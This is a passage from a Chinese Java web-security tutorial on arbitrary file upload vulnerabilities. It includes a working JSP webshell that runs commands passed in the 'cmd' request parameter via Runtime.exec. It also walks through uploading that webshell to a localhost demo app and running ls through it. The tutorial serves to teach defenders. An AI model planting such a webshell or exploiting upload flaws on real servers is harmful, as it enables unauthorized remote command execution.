 ```jsp
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

**示例 - 本地命令执行后门代码：**

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问示例中的文件上传地址：[http://localhost:8000/modules/servlet/fileupload/file-upload.jsp](http://localhost:8000/modules/servlet/fileupload/file-upload.jsp)，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):

![img](https://oss.javasec.org/images/image-20200921003740246.png)

后门成功的写入到了网站目录：

![image-20200921003719254](https://oss.javasec.org/images/image-20200921003719254.png)

访问命令执行后门测试：[http://localhost:8000/uploads/cmd.jsp?cmd=ls](http://localhost:8000/uploads/cmd.jsp?cmd=ls)，如下图：

![img](https://oss.javasec.org/images/image-20200921003841786.png)

## 2. Servlet 3.0 内置文件上传解析

Servlet3.0 新增了对文件上传请求解析的支持，`javax.servlet.http.HttpServletRequest#getParts`，使用`request.getParts();`即可获取文件上传包解析后的结果，从此不再需要使用第三方jar来处理文件上传请求了。
